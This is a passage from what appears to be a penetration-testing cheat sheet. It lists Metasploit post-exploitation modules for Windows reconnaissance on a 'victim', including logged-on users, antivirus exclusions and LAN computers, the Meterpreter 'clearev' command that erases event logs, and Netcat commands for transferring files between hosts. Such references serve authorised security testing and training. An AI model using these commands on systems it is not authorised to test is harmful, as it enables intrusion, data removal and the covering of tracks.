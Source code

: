 - Get logged on/recent users (Windows)

```
use post/windows/gather/enum_logged_on_users
```

- Check if machine is a VM (Windows)

```
use post/windows/gather/checkvm
```

- List installed applications on machine (Windows)

```
use post/windows/gather/enum_applications
```

- Get excluded antivirus paths (Windows)

```
use post/windows/gather/enum_av_excluded
```

- List all computers on victim's LAN (Windows)

```
use post/windows/gather/enum_computers
```

- List installed patches (Windows)

```
use post/windows/gather/enum_patches
```

- Clearing logs from Meterpreter shell

```
clearev
```

<div style="page-break-after: always;"></div>

# Netcat
---

- Enable verbose mode

```
nc -v <IP>...
```

- Transferring files

```
Recipient: nc -lvnp <PORT> > <OUTPUT_FILE>
```

```
Sender: nc -nv <RECIPIENT_IP> < <FILE_TO_SEND>
```
